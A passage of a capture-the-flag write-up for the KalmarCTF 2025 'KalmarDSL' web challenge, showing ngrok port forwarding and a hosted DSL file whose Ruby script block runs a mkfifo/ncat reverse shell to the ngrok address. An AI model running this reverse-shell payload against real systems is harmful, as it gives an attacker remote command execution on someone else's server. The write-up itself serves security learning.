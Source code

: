 - Setup port forwarding:

```shell
┌[siunam♥Mercury]-(~/ctf/KalmarCTF-2025/web/KalmarDSL)-[2025.03.13|16:41:21(HKT)]
└> ngrok tcp 4444
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:11310 -> localhost:4444                               
[...]
```

- Host our own DSL file:

```
workspace {
    !script ruby {
        value = `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|ncat 0.tcp.ap.ngrok.io 11310 >/tmp/f`
    }
}
```

> Note: Since `ngrok` free plan only allows 1 instance, I'll host this file on [requestrepo.com](https://requestrepo.com).

![](https://github.com/siunam321/CTF-Writeups/blob/main/KalmarCTF-2025/images/Pasted%20image%2020250313164545.png)
